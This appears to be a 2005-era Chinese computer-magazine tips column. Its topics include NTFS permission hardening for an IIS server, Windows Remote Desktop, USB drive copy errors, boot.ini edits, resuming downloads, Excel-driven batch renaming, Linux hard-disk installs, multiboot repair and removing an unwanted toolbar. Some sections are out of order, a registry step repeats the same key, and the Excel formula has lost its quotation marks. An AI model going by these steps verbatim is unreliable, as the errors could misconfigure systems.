本刊曾多次介绍了个人搭建Web服务器的方法，有些读者在学会建立服务器后，却因为不懂得安全配置而导致黑客轻易拿到了服务器权限并为所欲为。90%以上的用户都将Windows安装在C盘中，C盘就担负了十分重要的任务，还好在Windows 2000/XP/2003中，使用NTFS文件系统就能对文件、目录等进行权限设置。配置严谨的权限可以使入侵者无从下手，同时也可以避免别人使用你的电脑而造成的意外破坏。

## 如何设置权限

在“资源管理器”中，右击需要设置权限的分区、文件夹或文件，选择“属性”，在弹出窗口中选择“安全”选项卡；选中“组或用户名称”中相应的组或用户，在下方的“‘用户名’的权限”中添加或者去除相应的用户权限的勾选。

实例：给用户Everyone添加D:\movies文件夹的“完全控制”权限。

在“资源管理器”中右击D:\movies文件夹，选择“属性”，在弹出窗口的“安全”选项卡中选中用户“Everyone”，在下方的权限框中勾选“完全控制”(见图)。



★允许将来自父系的可继承性权限传播给对象。

给访问者写入和读取权限，而不给运行权限，这样即使黑客利用网站的上传漏洞(如动网论坛旧版本中的上传漏洞)将木马文件上传到了Web目录中，也无法运行。

## 4. System32

打开系统关键目录\WINNT\System32的权限，如果是Windows XP则应将路径中的“WINNT”改为“Windows”。选择除inetsrv和centsrv以外的所有目录，在“属性→安全”中去除“允许将来自父系的可继承性权限传播给对象”的勾选，在弹出窗口中点击“复制”。

## 5. 系统所在目录

- ①打开目录\WINNT，在Windows XP中则为“Windows”。选择除Downloaded program files、Help、IIS temporary compressed files、Offline web pages、System32、tasks、Temp、Web以外的所有目录，右击打开“属性→安全”，去除“允许将来自父系的可继承性权限传播给对象”的勾选，在弹出窗口中点击“复制”。

- ②打开目录\WINNT的权限设置框，设置如下权限。

| 账户名 | 权限 |
|---|---|
| Everyone | 读取及运行 / 列出文件夹目录 / 读取 |

★允许将来自父系的可继承性权限传播给对象。

- ③修改目录\WINNT\Temp的权限。

| 账户名 | 权限 |
|---|---|
| Everyone | 修改 |

★允许将来自父系的可继承性权限传播给对象。

小提示
★如果用户在“组或用户名称”列表中没有出现，则应点击“安全”选项卡中的“添加”按钮，再点击“高级→立即查找”，选择要添加的用户后点击“确定”。
★要使用权限设置，必须保证使用的系统为Windows 2000/XP/2003，并且分区采用的文件系统为NTFS。其中Windows XP必须是专业版，并且去除“文件夹选项”中的“简单文件共享”的勾选。

## 给C盘加N把锁

(系统为Windows 2000 Server，Web服务器为IIS，系统分区为C:)

### 1. 整个分区

在“资源管理器”中选中C:，按下表内容设置权限(表格中未出现的组或用户可根据实际情况删除)。

| 账户名 | 权限 |
|---|---|
| SYSTEM | 完全控制 |
| Administrator | 完全控制 |

C盘是服务器“重地”，为防止入侵，首先得把权限设置得保守一点，然后再根据需要为个别用户分配指定目录/文件的权限。“Administrator”应改为实际使用的管理员账户(一般都会将Administrator改名)，因为黑客常常利用提升权限的方法将账户加入Administrators组中，建议只将“完全控制”权限分配给惟一的管理员账户。

### 2. 程序公共运行库

修改目录\Program files\Common files的权限。

| 账户名 | 权限 |
|---|---|
| Everyone | 读取及运行 / 列出文件夹目录 / 读取 |

在“安全”选项卡中勾选“允许将来自父系的可继承性权限传播给对象”，此为Windows 2000设置方法，在Windows XP中则点击“高级”，勾选“从父项继承那些可以应用到子对象的权限项目，包括那些在此明确指定的项目”。

### 3. Web发布页目录

修改目录\inetpub\wwwroot的权限，如果你的Web目录在其他位置，请修改相应目录的权限。

| 账户名 | 权限 |
|---|---|
| iusr_machine | 写入 / 读取 |

### 普通用户的C盘设置

如果计算机不是用来作为服务器使用，则不能完全按照上文中的方法进行设置。

- ①去除上文中有关IIS目录的权限设置，如\inetpub\wwwroot、inetsrv、centsrv等。
- ②由于平时不宜使用管理员账户登录，所以还需新建一个受限用户。

有关普通用户的文件权限设置，请参考本刊2005年第9期的《用好Windows权限之剑——严防非法入侵》，其中提供了防止溢出攻击、上传后门、防止病毒的权限设置方法。

(JaryLin)

## 朋友有难 “远程桌面” 替你跑腿

单位的电脑、朋友的电脑、老妈的电脑，你是否经常为了这些电脑来回奔波？

- ①有工作没完成，家中的电脑却没有相应的办公环境，只得在单位加班。
- ②朋友或亲戚的电脑出现了故障，拜托你前去“相救”。
- ③朋友的朋友的电脑出现了故障，亲戚的亲戚……

(小编按：几乎每个假期都会遇到这种事，真是深有同感)

其实何必自己跑腿，Windows自带的“远程桌面”功能就是一个不错的“飞毛腿”。

## 小知识

“飞毛腿”是怎么发射的？

相比“远程桌面”，可能大家更多接触的是“远程控制”，实际上“远程桌面”可以理解为Windows 2000 Server/XP/2003提供的“远程控制”功能(在Windows 2000 Server/2003中叫“终端服务”)。通过它我们能够登录到Internet或局域网的任何一台电脑，像操作本机一样操作远程电脑。比如笔者就曾在家中通过“远程桌面”连接到单位的Windows XP，实现远程办公(服务端如果在局域网内，必须具有公网IP地址，或在网关中添加指向远程桌面服务端机器的3389端口映射)。

## 快速上手：学会让“远程桌面”跑腿

远程桌面牵涉到客户端和服务器端两个角色，服务器端必须使用Windows 2000 Server/XP/2003，而客户端则可以使用任意Windows版本。怎样才能使用远程桌面功能呢？由于Windows 2000 Server和Windows 2003 Server对于普通用户不是很常见，所以笔者只介绍Windows XP的实现方法。

- 第一步：(在服务器端)如果Windows XP没有设置密码，而是自动登录，请首先在“控制面板”的“用户/账户”中设置一个登录密码。设置完毕后右键单击“我的电脑”，选择“属性”菜单，在打开的窗口中切换到“远程”选项卡，勾选“允许用户远程连接到这台计算机”。
- 第二步：(在服务器端)单击“选择远程用户”，在打开的“远程桌面用户”窗口中添加拥有远程登录权限的用户。具体步骤为单击“添加”按钮，在弹出的“选择用户”窗口的“输入对象名称来选择”中输入要添加账户的用户名，单击“确定”即可。
- 第三步：(在客户端)如果客户端是Windows XP(Professional)/2003，那现在就可以通过菜单“开始→程序→附件→通讯→远程桌面连接”来访问服务器端了。否则还需要安装一次远程桌面程序，该程序在Windows XP安装光盘中有，也可以到http://download.microsoft.com/download/whistler/tools/1.0/wxp/en-us/msrdpcli.exe下载安装。

小提示
★管理员组(Administrators)中的成员都默认可以连接，但在“远程桌面用户”列表中可能看不到。
★安装Windows XP安装光盘中的“远程桌面”，插入Windows XP安装光盘，在“欢迎”窗口中点击“执行其他任务”选项，然后选择“设置远程桌面连接”，根据提示进行安装。

- 第四步：(在客户端)输入服务器端的IP地址、登录用户名以及密码，点击“连接”按钮，就可以在远程计算机上操作了。

## 实战练兵：提高“飞毛腿”的性能

### 1. 给“远程桌面”加上一把锁

如果你远程访问的计算机中有重要数据，怎么防止别人连上来搞破坏呢？在服务器端运行“gpedit.msc”打开“组策略编辑器”，依次展开“计算机配置→管理模板→Windows组件→终端服务→加密与安全性”，将右侧窗口中的“连接时总是提示客户端提供密码”设置为“已启用”即可。

### 2. “远程桌面”时用哪个打印机

远程办公时如果使用打印机，文档会打印到哪儿呢？能否使用本地打印机？打开“远程桌面连接”的登录窗口，点击“选项”，在“常规”标签下输入基本的登录账户信息，切换到“本地资源”，在“本地设备”中勾选“打印机”，然后单击“连接”。这样我们就能在进行远程连接的同时使用本地计算机的打印机了。

除使用本地打印机外，还能使用本地磁盘而不需要切换到本地桌面，远程办公时把文件保存到本地就相当方便了。

### 3. 删除“远程桌面”后的蛛丝马迹

使用“远程桌面”后，在登录窗口中就会保留我们登录过的计算机信息(比如计算机名、IP等)；如果不希望其他人知道这些信息，可以将它们删除。打开“注册表编辑器”，找到[HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default]，在窗口右侧保存的MRUx键(其中x为数字)，键值就是曾登录过的远程计算机的IP或名字，将这些键直接删除即可。

### 4. “远程桌面”连接速度更快

我们平时在使用计算机时都知道，如果桌面不采用背景图片，登录到系统的桌面的速度会快一些。同样道理，如果在使用“远程桌面”连接到远程计算机时也不显示背景图片，进入远程桌面的速度也会快不少。在连接的客户端机器上打开“远程桌面连接”窗口，点击“选项”按钮，然后切换到“高级”选项卡，建议去除“桌面背景”等选项的勾选，只保留“位图缓存”，点击“确定”保存设置。

### 5. 为什么“远程桌面”无法使用

- ①如果服务端使用Windows防火墙，右击系统托盘上的网络连接图标，选择“更改Windows防火墙设置”，在弹出窗口中的“例外”选项卡中勾选“远程桌面”，点击“确定”。如果安装了第三方防火墙，则应检查服务端是否屏蔽了3389端口。
- ②运行“services.msc”打开“服务管理”，在窗口右侧的服务列表中检查“Remote Desktop Help Session Manager”服务是否启动，另外，服务端还需启动“Terminal Services”服务。
- ③服务端与客户端如果不在同一个局域网内，则服务端必须有公网IP，否则必须通过在网关上映射其3389端口才能正常连接。

## 解惑释疑: 2个容易让人忽略的问题

### 1. 远程桌面≠远程控制
不少人将“远程桌面”和“远程控制”这两个概念搞混淆了。两者的重要区别在于:

- ① “远程桌面”是本地用户在远程计算机上的完整登录，如果服务端是Windows XP，则默认只能允许一个用户登录，当登录远程桌面后，服务端的本地登录用户就必须断开。而“远程控制”则只是控制服务端上已经登录的用户的操作，服务端已经登录的用户不必退出。
- ② 使用“远程桌面”连接时，客户端进行的操作，服务器端是看不到的，其屏幕锁定在Windows XP的欢迎界面；而远程控制时，不仅可以看到客户端进行的电脑操作，而且可以同时操作。
- ③ “远程桌面”是Windows自带的功能，远程控制需要安装专门的软件，如pcAnywhere等。从功能上来讲，远程控制软件一般比“远程桌面”更强大。

### 2. Windows XP/2003“远程桌面”的差异
- ① 当服务器端使用的是Windows XP时，它只允许一个远程用户进行连接；而Windows 2003中可以支持多个用户同时利用远程桌面登录系统，并且各自不相干扰，就好像在各自使用各自的电脑一样，甚至Windows 2003可以允许不同的客户端使用同一个账户同时登录。
- ② Windows 2003可以专门为用户设置一个远程访问组，Windows XP则是基于单用户的。

## 四通八达: 还有谁可以“跑腿”
除Windows自带的“远程桌面”外，还有什么软件可以免除我们“跑腿”的辛苦? 下面为大家列出一些常用的远程管理工具(见附表)。

### 附表

| 软件名 | 特点 | 下载地址 | 备注 |
|---|---|---|---|
| pcAnywhere | 著名的赛门铁克公司(主要产品有Ghost、Norton Antivirus、Norton工具箱)的重量级产品，在主控与被控电脑间互拷文件时比较方便，但安装后体积较大，不适合个人使用。 | http://nj.onlinedown.net/soft/34056.htm | |
| DameWare Mini Remote Control | 基于NT核心服务的远程控制软件。在NT核心操作系统(Windows 2000/XP/2003)中无须安装服务端，功能也非常强大。在分发部署服务端上相当有优势。 | http://nj.onlinedown.net/soft/28077.htm | |
| Radmin | 带宽占用非常低，所以即使网络状况不太好的情况下也能保持较好的速度。该有的功能全有了，企业级用户使用得较多，在远程服务器管理中占有很大份额。 | http://nj.onlinedown.net/soft/32049.htm | |
| Ultr@VNC | 功能强大，设置选项丰富，最大的优点是免费，但在速度和方便性上不如Radmin。 | http://www.newhua.com/cfan/200424/cultravnc.exe | Ultr@VNC的使用方法可参考本刊2004年第24期的《又快又实用的远程控制法宝》。 |
| QQ远程协助 | 集成于QQ中，优点是无需安装其他附加程序，并且只需登录QQ就能找到连接双方，操作非常简单，但设置项比较少且速度不理想。 | http://im.qq.com/qq/dlqq.shtml | QQ远程协助的使用可参考本刊2005年第1期的《用QQ远程拯救我MM》。 |

## 移动硬盘消化不良？我来摆平它

经常需要“把数据带出门”的朋友都会选择移动硬盘。普通移动硬盘价格较高，所以多数用户会选择购买笔记本硬盘加移动硬盘盒的“组装”移动硬盘。这种组合购买方式看似经济实惠，但同时却带来了另一个问题:笔记本硬盘与移动硬盘盒的兼容性问题。

### 不兼容导致的问题

相信这些问题不是你想碰到的；但确实不少移动硬盘(主要集中在低速笔记本硬盘、廉价移动硬盘盒中)存在这些问题，当数据传输量大时就会发生“消化不良”。

- ①文件复制失败或者在复制过程中死机。
- ②文件复制完成后发现目标文件损坏、打不开。
- ③在复制大文件时，以上两种情况更为明显。

### 普通的解决方法：双口供电

有一部分产生兼容问题的原因是移动硬盘供电不足，几乎所有移动硬盘盒都提供了双头供电，也就是插2个USB口。但由于这个故障产生的原因不在于此，所以未能对症下药。

### 应急的解决方法:禁用USB2.0

排除供电不足引发故障的可能，接下来就把目光转向硬盘对USB2.0的支持度上了。上文曾提到这种问题一般都集中在低速笔记本硬盘和廉价移动硬盘盒上，正因为如此，其对速度及稳定性要求较高的USB2.0标准可能支持得不太好。怎样让已经工作在USB2.0上的移动硬盘使用USB1.1的速度传输文件呢？

- 第一步：右击“我的电脑”选择“属性”，选择“硬件”选项卡，然后点击“设备管理器”按钮。
- 第二步：在弹出的“设备管理器”窗口中，找到“通用串行总线控制器”，展开该项，双击其下名为“USB Enhanced Host Controller”的子项。
- 第三步：在该硬件的属性窗口中，选择“常规”选项卡，将“设备用法”下拉菜单设置为“不要使用这个设备(停用)”，点击“确定”。
- 第四步：再次复制文件进行测试。整个复制过程异常稳定，没有出现数据损坏或者传输错误，确定刚才的判断是正确的。

故障分析:USB Enhanced Host Controller是增强型的USB传输控制器，用以提供USB2.0的传输支持，将其禁用后就能使系统自动将USB传输速度控制在USB1.1的水平。

### 长效解决方法:使用KillCopy

将传输速度控制在USB1.1的水平固然能保证稳定，但其与USB2.0的速度差距使我们在复制大文件时望而却步。有没有既保证传输速度，又能兼顾稳定性的方法呢？硬盘“消化不良”，请KillCopy(下载地址: http://www.onlinedown.net/soft/37122.htm)帮忙。

首先下载并安装KillCopy(除安装路径外的参数建议使用默认设置)，右击需要复制的文件或文件夹，选择“用KillCopy复制到”或者“用KillCopy”将文件复制/移动到移动硬盘的盘符中，但由于速度达到最高时可能会引发刚才的故障，所以要在“速度限制”中将传输速度降低一点，建议设置为16384Kbps或以下，“缓冲大小”建议使用默认的1Mbytes(见图)。如果仍有问题，请根据实际情况逐步调整设置。



## 还我启动自由 只需1KB

我们通常会在CMOS中设置第一启动设备为硬盘，但当系统出现故障需要从软驱或者光驱引导时，就得进入CMOS修改第一启动设备为软驱或者光驱，问题处理完毕后，还得再进入CMOS把参数改回去，比较麻烦。现在有一些最新的CMOS系统具备了启动设备选择功能，可以在电脑提示按DEL进入时，按下F8键来选择可用的启动设备，如软驱、光驱、硬盘等，这样更换启动设备时就不必再进入CMOS麻烦地设置了，但大部分的CMOS并不具备这种功能，不过也不必遗憾，只要你使用的是Windows 2000/XP/2003，就能通过下面方法进行设置，让系统也能在启动时自由选择启动设备。

首先从http://www.newhua.com/cfan/200515/BOOTSECT.cdr下载一个大小仅1KB的Bootsect.cdr文件，将它复制到C盘根目录。然后去掉C盘根目录下Boot.ini文件的只读属性，用“记事本”打开Boot.ini文件，在文件最后添加如下一行内容后保存文件:
C:\Bootsect.cdr="选择启动设备"
重启系统,当出现Windows 2000/XP/2003启动菜单时，把可引导的软盘或者光盘放入驱动器中，然后选择“选择启动设备”项目后回车(见图)，这时系统将会自动扫描软驱和光驱，当发现有可引导的软盘或光盘时，就会从该设备引导系统。如果找不到启动软盘或光盘，它会自动返回到启动菜单，让你重新选择，非常方便。



- 1.建议将Windows2000/XP/2003启动菜单延时适当延长，以便你有充足的时间拿出软盘或光盘放入驱动器进行选择，不然还没等你放入引导盘，系统已经以默认选项启动了。
- 2.在CMOS中的“STANDARD CMOS SETUP”选项中必须设置光驱所在的IDE设备类型为“AUTO”(有些CMOS则会直接显示出光驱类型)，也就是不能设置为“NONE”或者“NO INSTALLED”，这样在系统启动时才能搜索到光驱设备，否则将无法使用光驱引导。
- 3.这种方式并不能代替CMOS设置里的光盘引导功能，对于一些特别老的CMOS系统，如果CMOS参数里根本没有光盘引导这项功能，那么启动也不会成功的。

## 告别“烂尾工程”——多下载工具续传技术

任务内容:经常在网上下载一些较大的电影和软件包，有时下载了一半突然发现FTP站点关闭了，幸好在别的网站又发现了同样文件，却是HTTP下载方式的。本期挑战题目就是在目标文件相同的情况下，让下载能以不同方式继续(如用BT下载了50%，再用FTP接着下载等)。

装备:Windows 98/2000/XP
任务难度系数:3/5
挑战者:猫理小五狼
注意:本文仅用于研究续传技术，在使用BT下载时请注意遵守相关版权条例。

我们常常将那些造到一半而无法继续的工程称为“烂尾工程”，而在网上下载时，也常常会遇到下载到一半却因某些原因无法继续的问题，比如BT种子没了或者FTP链接失效等。如何能让这些“烂尾工程”能够重新“活”起来?

### BT也能借尸还魂

经常使用BT下载的朋友都知道，下载时种子突然没有了，下载就无法继续了(除非好心人来续种)。如果正好下载到99%，那是多么令人捶胸顿足啊! 发生这种情况时一般有两种方法:

- ①下载文件是RM等电影文件，使用专用修复工具对文件进行修复。
- ②在论坛中发帖，要求好心人续种。

第一种方法只能针对即将下载完的电影文件，如果是RAR或者其他类型的文件就无能为力了；第二种方法则只能靠运气，非常被动。那么有没有第三种方法可以解决这一问题?

(本文以BitComet 0.58为例)
- 第一步: 寻找相同的种子。要继续下载，必须找到完全相同的种子文件，首先记好下载文件的名称(如 “[火影忍者剧场版 VS.我爱罗的回忆].rmvb”)，在各大BT网站中搜索这个名称，如果搜索到的BT文件与原文件的名称和大小都相同，则点击该下载链接(下载到别的目录，不要覆盖原来无种的BT文件)。

#### 火速链接
要想更快、更好地搜索到BT种子，请参考本刊2005年第8期的《轻松做个寻种大师》。

- 第二步: 在BitComet弹出的“任务属性”窗口中，打开“高级设置”选项卡，复制“服务器列表”框中的内容，点击“取消”关闭窗口。在主界面的下载任务列表中右击原来无种下载的BT文件项，选择“属性”，将刚才复制的内容添加或覆盖到“任务属性”窗口的“服务器列表”框中，点击“确定”(见图)。
- 第三步: 重新开始下载该任务，原来已经没有种子的BT下载任务注入了新的“活力”，又能够正常下载了。

如果找到的BT下载目录结构与原文件不同
原来下载的BT文件是单个的old.rm，在下载到60%的时候没了种子。而找到的新BT文件中却是一个名为movie的目录，其中有一个new.rm，该任务下载了1%。如果确定old.rm和new.rm是相同的文件，则可以这样做:
- 第一步：将原来下载的任务与新增的任务都停止，将old.rm.bc!改名为new.rm.bc!(用BitComet下载的文件，在未完成前后缀为BC!)，覆盖新增任务中movie目录下的new.rm.bc!文件。
- 第二步：打开BitComet主界面，在下载任务列表中右击新增的任务(即movie目录中包含new.rm的任务)，选择“重新检查完整性”(见图2)。
- 第三步：在完整性检查完成后，该任务项中的“进度”就从原来的1%变为了60%(有时会有略微的变化)。



### FlashGet未唱罢，BT就登场

用FlashGet下载大文件时，经常会遇到今天下载了50%，想明天接着下载，到了明天却发现链接已经失效了。没关系，换BT登录。
- 第一步：参考上文中的方法找到BT下载文件，添加下载任务后停止下载。
- 第二步：FlashGet未下载完的文件后缀为JC!(原来FlashGet名为JetCar，JC是其缩写)，使用BitComet续传需要先将其后缀改为BC!。修改完成后将其覆盖BitComet中相应的下载文件，如果不能覆盖则说明BitComet中的下载任务没有停止。
- 第三步：在BitComet主界面的下载任务列表中右击新增的任务，选择“重新检查完整性”。
- 第四步：在完整性检查完成后，下载的进度就会由原来的0%一下子提高不少，虽然不会完全达到FlashGet中的完成度，但相差不多。

★经过测试后发现，使用BT下载的文件无法用FlashGet等下载工具续传。

# DOS命令+Excel=批量文件重命名

本刊《DOS快餐店》一文介绍了使用DOS命令为文件快速重命名，如果要对文件进行批量重命名，是否就必须使用带有循环语句的批处理？其实可以用Excel和DOS命令结合，实现简单高效的批量文件重命名。

任务：在 C:\mypictures 目录中包含以下文件：002.jpg、003.jpg、004.jpg、005.jpg。要将它们分别改名为泰山风景1.jpg、泰山风景2.jpg、泰山风景3.jpg、泰山风景4.jpg。

第一步：运行CMD打开“命令提示符”窗口，用cd命令进入文件所在目录(cd C:\mypictures)，然后用 `dir *.jpg /b>temp.bat` 命令将当前目录中的JPG文件名输出到临时文件 temp.bat 中。

第二步：用“记事本”打开 C:\mypictures 中的 temp.bat，全选并复制该文件中的内容，然后打开Excel，定位到A1单元格，右击选择“选择性粘贴→确定”，在B1单元格中输入第一个文件的目标文件名(如“泰山风景1”)，通过拖拽B1单元格右下角的填充柄在B列生成文件名序列，即“泰山风景1”、“泰山风景2”、“泰山风景3”……

第三步：在C1单元格输入公式 `=ren &A1&&B1&RIGHT(A1,4)` (不含外侧中文引号)，然后通过填充柄在C列生成序列。选中C列中所有生成的序列，复制到 temp.bat 文件中，覆盖原来的内容，保存退出。最后双击 temp.bat 运行之，批量文件改名即告完成。
(马丽平)

```
=ren &A1&&B1&RIGHT(A1,4)
```

# Linux也玩硬盘安装

本刊“特别话题”《打破窗户的企鹅》给大家介绍了Linux操作系统的使用，有很多幸运读者已经收到了我们寄出的正版红旗Linux和小企鹅了。没有拿到Linux安装盘的读者也不用着急，你可以在红旗官方网站(http://www.redflag-linux.com/)找到安装盘的ISO镜像文件，考虑到很多读者并没有刻录机，这儿教大家一招从硬盘安装Linux的方法。

*本文以红旗Linux 4.1桌面版为例。

第一步：制作Linux启动盘

先把Linux操作系统安装盘ISO文件中 images 文件夹里的文件 bootdisk.img 单独复制到硬盘分区中(如C:，注意此分区必须使用FAT32格式)。再把ISO文件中 dosutils 文件夹里的文件 rawrite.exe 与文件 bootdisk.img 保存在同一个目录下。然后在DOS提示符下执行 rawrite，按提示插入软盘，将 bootdisk.img 写入软盘。
当出现“Enter disk image source file name:”时，输入“bootdisk.img”(不含引号，下同)回车。
当出现“Enter target diskette drive:”时，输入“A”回车。
当出现“Please insert a formatted diskette into drive A: and press ENTER:”时，放入格式化好的软盘并回车。

第二步：用Linux启动盘引导
首先放入上文中制作好的启动软盘，重启电脑(确保第一启动设备是软驱)，出现提示后回车。然后当出现“Loading vmlinuz……”、“Loading initrd img……”(此过程所需时间稍长)后回车，再次回车。选择默认选项后回车。当出现提示询问以何种方式安装时，选择硬盘安装方式(选项Hard Drive)回车。提供正确的ISO文件位置信息，选择“/dev/hda*”，*代表数字，应与Windows下存放ISO文件的分区相对应，回车后开始安装Linux。
(刘志武)

# 安装多系统，我偏不先来后到

熟悉Windows多操作系统的安装的朋友都知道有一个规则：那就是Windows多操作系统安装要由低到高，也就是按照Windows 98→Windows 2000→Windows XP→Windows 2003的顺序进行安装。一旦安装顺序弄错，就会导致先安装的高版本操作系统不能引导，出现这种问题的朋友不在少数，这也使得许多菜鸟朋友轻易不敢尝试安装多操作系统。遇到这样的问题，即使是老鸟也得花费一番功夫进行修复。不过，现在有了 OSBRecovery，菜鸟也能轻松解决这样的问题，即使是老鸟，它也是必不可少的得力工具，而且它完全支持Windows 2000/XP/2003的启动修复，让多操作系统不论高低版本随意安装。

**OSBRecovery小档案**
软件版本：1.2
软件大小：1796KB
软件性质：共享软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.onlinedown.net/soft/25783.htm

**小提示**
OSBRecovery的安装需要两步：打开下载的压缩包后，首先运行 OSBRecoveryV1.2sdfix.exe 安装主程序，然后再运行 OSBRecoveryV1.2sdfixSP1.exe 安装补丁程序，注意在安装补丁程序时需要输入解压密码“www.sdfix.com”。

**实例一**
一台电脑已经安装有 Windows XP，由于需要使用 Windows 2000 来操作服务器用，又在D盘安装了 Windows 2000，但安装后发现引导菜单中虽然有 Windows XP 项，但却不能进入，只能选择进入 Windows 2000。

**解决方法**
进入 Windows 2000，安装并运行 OSBRecovery，可以看到其主界面非常简洁，使用也很简单：根据你的多操作系统安装实际情况，在“操作系统1”下拉框中选择“Windows XP”，“所在分区”下拉框选择“C”，“所在物理硬盘”下拉框选择“IDE 1”。然后在“操作系统2”下拉框中选择“Windows 2000”，“所在分区”下拉框选择“D”，“所在物理硬盘”下拉框选择“IDE 1”。“默认启动的操作系统”根据需要选择为“Win2000”，最后单击“开始修复”按钮，重启电脑即可看到问题已经解决了！

**如何判断硬盘的IDE位置**
界面中的“所在物理硬盘”是指你的硬盘安装在哪个IDE通道上，一般来说都是安装在IDE1通道上，如果你不能确认的话，可以打开C盘根目录下原来的 boot.ini 文件，其中有“rdisk(0)”表示硬盘安装在IDE1通道，“rdisk(1)”表示硬盘安装在IDE2通道。

**小提示**
OSBRecovery修复后生成的“boot.ini”文件中，Windows 2000系统目录默认设置为“winnt”的，如果你安装 Windows 2000 时是安装在 Windows 目录，则需要手动修改一下，将文件中的“winnt”改为“windows”，否则会导致修复后无法启动 Windows 2000。

**实例二**
一位朋友新购的品牌机，预装的是 Windows XP，自己在D盘安装了 Windows 98，想做成双操作系统，但安装后却发现系统一启动就直接进入 Windows 98，没有出现双启动菜单，不能选择进入 Windows XP。

**解决方法**
由于 OSBRecovery 并没有直接针对这种情况的修复功能，但可以变通使用，把其中的 Windows 98 假设为 Windows 2000，这样就形成了和实例一完全一样的问题，我们可以先进入 Windows 98，安装并运行 OSBRecovery，使用同样方法进行修复，然后再修改C盘根目录下的 boot.ini 文件。把其中的 `multi(0)disk(0)rdisk(0)partition(2) winnt=Microsoft Windows 2000` 行的内容修改为 `C:=Microsoft Windows 98`，并修改缺省启动项为 `default=c:\`(见图)。

**小提示**
如果你对“boot.ini”文件不太了解，担心修改时破坏文件，还可以从 http://hdt.downloads.com:8080/down/sqtdyqfjl.exe 下载一款叫做“双系统启动修复精灵”的免费软件，在使用 OSBRecovery 修复后，删除C盘根目录下的“boot.ini”文件，然后运行双系统启动修复精灵，在界面中选择“C盘XP，D盘98”选项，再单击“修复”按钮即可。

当然，在实际中遇到的情况可能会与实例有所区别，但都是系统所在分区的不同，相信读者朋友能从实例中举一反三，触类旁通，解决此类问题。
(软件DIY)

| 版本 | 系统目录 |
| --- | --- |
| Windows 98 | \\Windows\\system |
| Windows 2000 | \\Winnt\\system32 |
| Windows XP | \\Windows\\system32 |

# 怪安插件？还我系统清白

打开“任务管理器”，找找进程列表中有没有一项叫做“BCUP.exe”的进程，如果有，那么很不幸，你已经“中招”了。经过分析发现，这是国内某知名博客网站上放置的一个插件程序。但这个插件的特性实在令人汗颜：

(1) 自动下载安装，没有安装提示。
(2) 长期驻留内存(占用3.66MB内存)，造成IE迟滞和运行阻塞。
(3) 有可能造成IE启动错误。
(4) 不提供卸载程序。

下面提供给大家卸载方法，已经“中招”的朋友现在可以得救了。

第一步：关闭所有IE窗口，打开“任务管理器”，在“进程”选项卡中结束 BCUP.exe 进程。
第二步：点击“开始→运行”，执行 `regsvr32 -u c:\[系统目录]\BoCaiToolBar.dll`。

**小提示**
“第二步”中路径参数的“[系统目录]”应替换为实际系统目录位置(见附表)。

**附表**
| 版本 | 系统目录 |
| --- | --- |
| Windows 98 | \\Windows\\system |
| Windows 2000 | \\Winnt\\system32 |
| Windows XP | \\Windows\\system32 |

第三步：进入系统目录，删除 BCUP.exe 和 BoCaiToolBar.dll (如果 BCUP.exe 无法删除，请在“任务管理器”中再次结束该进程)。
第四步：运行 regedit.exe 打开“注册表编辑器”，找到 `[HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run]`，在右侧窗口中删除 BCUpdate；然后找到 `[HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run]`，删除其下的子项“BlogChina”。
(没空理发)

# 畅行无阻，给程序一张无敌通行证

别人电脑上运行得好好的程序，到了你的电脑上有可能就跑不起来。“找不到运行库”、“数组越界”、“缺少DLL文件”，这些都是非常常见的运行错误提示。今天就要给程序一张无敌通行证，让它在你的电脑上畅行无阻。

## 没有你怎么活：运行库故障

这可能是我们遇到最多的运行故障了，运行库是一种类似于中间层的程序，在使用运行库的程序与系统之间扮演传令员的角色。比如程序需要读一个文件 a.txt，这时它只需告诉运行库这个读文件的想法即可，而具体怎么读则由运行库来指导系统完成。当这个传令员走丢了（运行库不存在）或病了（运行库损坏）时，就会出现缺少运行库的故障，安装相应的运行库就能解决此问题（见附表）。

| 运行库名 | 故障提示 / 特征 | 下载地址 |
| --- | --- | --- |
| VB 运行库 | 缺少 Msvbvm60.dll | http://www.newhua.com/cfan/200515/vb6runtime.exe |
| Java 虚拟机 | 错误包含 “Java Runtime” 字样 | http://www.java.com/zh_CN/download/manual.jsp |
| VC 运行库 | 缺少 msvcr70.dll/msvcr71.dll | http://www.newhua.com/cfan/200515/msvcr.zip |
| .NET Framework | 初始化错误 | http://www.onlinedown.net/soft/34491.htm |
| WSH 运行库 | 网页显示不正常 | http://www.skycn.com/soft/1113.html |

### 小提示
★ 如果是网页中的Java程序（称为Applet），除必要的Java运行库外，安全设置也是非常必要的，右击桌面上的IE图标选择“属性”，在弹出的“Internet属性”窗口中选择“安全”选项卡，点击“自定义级别”，在“安全设置”窗口中找到“脚本”，将“Java小程序脚本”和“活动脚本”都设置为“启用”，点击确定保存设置。
★ 以上的下载文件中如果不包含安装程序，则直接解压后将DLL文件复制到系统目录即可。

## 谁在妨碍我娱乐：游戏故障

小到Windows自带的《扫雷》、《纸牌》，大到占用6GB硬盘的《魔兽世界》，用电脑的很少有不玩游戏的。但很多朋友在装完游戏后却发现游戏根本运行不起来，难道是安装光盘有问题？

### 1. DirectX
特征：提示“找不到动态链接库D3D8.DLL”。
通行证：很多游戏都采用DirectX的图形接口，这些游戏在运行时都必须先确保系统中已经安装了对应（或更高）版本的DirectX，一般在游戏光盘中都会自带所需的DirectX安装文件，如果没有则从 http://www.onlinedown.net/soft/5288.htm 下载并安装。OpenGL也是如此，要运行支持最新OpenGL标准的游戏，就必须先安装对应的OpenGL（各显卡厂商的主页都提供了硬件对应版本的下载）。

### 2. 显卡驱动程序
特征：提示“找不到D3D设备”。
通行证：首先运行 dxdiag 确认一下“显示”选项卡中的“Direct3D加速”是否被禁用了，确保是“已启用”的。如果显卡驱动程序版本较老，就有可能导致DirectX无法找到该D3D(Direct3D)设备的情况，解决方法是升级显卡驱动程序。另外值得注意的是，VIA芯片组的主板如果出现此问题，请先安装VIA 4in1补丁。

### 3. 永远无法插入的光盘
特征：不管光驱里有没有游戏光盘，都提示“请插入光盘”。
通行证：这种故障一般都是游戏程序的缺陷或者特有的版权保护措施导致的，解决的方法有以下几种：

- ① 非默认安装路径：很多游戏都只支持安装在C盘的默认位置，如果在安装时将路径设置为了“D:\Program Files\XXXX”，则有可能出现不断提示插入光盘的情况，解决方法是卸载游戏后使用默认路径安装。
